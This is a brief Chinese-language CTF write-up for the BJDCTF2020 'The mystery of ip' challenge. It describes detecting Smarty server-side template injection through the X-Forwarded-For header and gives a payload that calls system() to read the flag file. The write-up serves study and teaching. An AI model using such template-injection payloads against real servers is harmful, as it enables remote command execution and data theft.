 # \[BJDCTF2020]The mystery of ip

## \[BJDCTF2020]The mystery of ip

## 考点

* Smarty SSTI

## wp

flag.php回显了一个IP地址，抓包改XFF，一般这种大概率SSTI

![](<../../.gitbook/assets/image (11) (1) (1).png>)

输入`{{7*7}}`返回49，输入`a{*7*}b`返回ab，确认是Smarty SSTI

payload：`X-Forwarded-For: {{system("cat /flag")}}`
